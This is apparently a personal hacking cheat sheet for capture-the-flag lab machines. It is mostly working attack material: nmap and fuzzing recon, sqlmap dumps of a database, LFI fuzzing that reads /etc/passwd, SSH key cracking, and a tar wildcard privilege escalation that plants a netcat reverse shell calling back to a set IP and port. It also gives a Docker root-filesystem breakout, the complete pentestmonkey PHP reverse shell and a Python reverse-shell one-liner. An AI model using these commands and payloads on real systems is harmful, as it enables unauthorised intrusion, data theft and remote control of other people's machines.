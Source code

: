 # hacking_notes

## Recon

### Scanning ports
```powershell
sudo nmap -A -o scan_agsv.txt 10.10.10.218
sudo nmap -sS -p- -o scan_full.txt 10.10.10.218
```
### Fuzzing subdomains
```powershell
wfuzz -w subdomains-top1million-5000.txt -H "Host: FUZZ.vulnnet.thm" --hc 200 10.10.236.248
```

### sqlmap
```powershell
sqlmap -r ./test_user --dbms=MySQL --technique=U --delay=3
sqlmap -r ./test_user --dbms=MySQL --current-db
sqlmap -r ./test_user --dbms=MySQL -D marketplace --dump
```


### LFI
```powershell
python ./panoptic.py --url http://vulnnet.thm/\?referer\=test
```

### Fuzzing for command executions via LFI 
```powershell
wfuzz -w SecLists-master/Discovery/Web-Content/burp-parameter-names.txt http://vulnnet.thm/\?\FUZZ\=id\;whoami\|\|ls
wfuzz --hh 5829 -w ~/Documents/SecLists-master/Discovery/Web-Content/burp-parameter-names.txt http://vulnnet.thm/\?\FUZZ\=/etc/passwd
```

### Fuzzing dir
```powershell
gobuster -u http://broadcast.vulnnet.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
gobuster -u http://10.10.236.248 -w SecLists-master/Discovery/Web-Content/common.txt
```

### Wordpress
```powershell
wpscan --url http://10.10.255.124/blog --enumerate u
wpscan --url http://10.10.74.136/ --passwords /usr/share/wordlists/rockyou.txt --usernames user1,user2
```


## Cracking

### Crack ssh passphrase
```powershell
python ssh2john.py id_rsa > id_rsa.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

## Priv Esc

### tar wildcards
```powershell
cd target_dir
echo "mkfifo /tmp/bggenux; nc 10.9.4.192 4444 0</tmp/bggenux | /bin/sh >/tmp/bggenux 2>&1; rm /tmp/bggenux" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
tar cf archive.tar *
```
* [https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)
* [https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/](https://materials.rangeforce.com/tutorial/2019/11/08/Linux-PrivEsc-Wildcard/)


### Docker
```powershell
docker run -it -v /:/host/ <docker image> chroot /host/ bash
```
* [https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout)


## Payloads

### PHP Reverse Shell

* [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)

```php
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);  // Parent exits
	}

	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),
   1 => array("pipe", "w"),
   2 => array("pipe", "w")
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```


### Python Reverse Shell

```powershell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Misc

### Start local server
```powershell
python -m SimpleHTTPServer
```

### Get tty in shell
```powershell
python3 -c'import pty;pty.spawn("/bin/bash")'
```

## TODO

[*] ftp
[*] hydra
[*] http bruteforce
[*] one line reverse shell
[*] check linux exploit
[*] smb (nmap script enum)
[*] john
